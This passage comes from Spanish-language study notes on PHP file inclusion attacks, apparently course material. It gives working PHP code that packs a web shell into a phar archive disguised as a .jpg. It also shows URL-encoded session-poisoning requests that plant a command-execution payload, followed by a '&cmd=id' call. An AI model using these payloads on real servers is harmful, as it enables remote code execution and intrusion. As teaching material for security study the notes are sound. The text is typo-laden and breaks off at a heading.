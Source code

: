 Finalmente podemos usar "phar://
```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
Este escript es como si fuera un fichero "phat" y se hace una shell con un txt

```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Ahora noostros deberiamos llamar al jpg y activaria el subfichero.

# ENVENENAMIENTO DE LOG

Anteriormente vimos como incluid una sección que contiene un código PHP,  y al ser jecutado, se crea una función vulnerable hacía la ejecución de privilegios. Los ataques que haremos en esta sceción, es escribir código PHP en una rchivo y tener el control de los logeos

![image](https://github.com/user-attachments/assets/a70edd17-9476-4f10-96f3-117b0dad25e2)

## ENVENENAMIENTO DE SESIÓN CON PHP

Las aplicaciones web utilizan "PHPSESSID" cookies, se utilizan para espicifar los datos del back-end del usuario, estos detalle que guarda son los archivos de sesion de /var/lib/pgp/sessions, Lo primero de todo que necesitarmeos en tener una sesión y examientar el archivo de sesió.

Una vez veamos un valor de cookie como "nhhv8i0o6ua4g88bkdl9u1fdsd" lo guardaremos en "/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd" esto incluira que podemos ver contenidos

Podemos ver que el rachivvo contiene 2 valores , la página que es seleccionado por el valor "language". El valor de preferencia no esta en nuestro control, no debemos especificarlo porque se especifica automaticamente, el pavor de la pagina es el que tenmos el control igual que el parametro language

```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

En este momento vamos a añadir un archivo "es-php" que nos dice que conseguimos valores  o código

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finalmentep ondemos añdir un "&cmd=id"

### EVENENAMIENTO DE LOG EN UN SERVIDOR
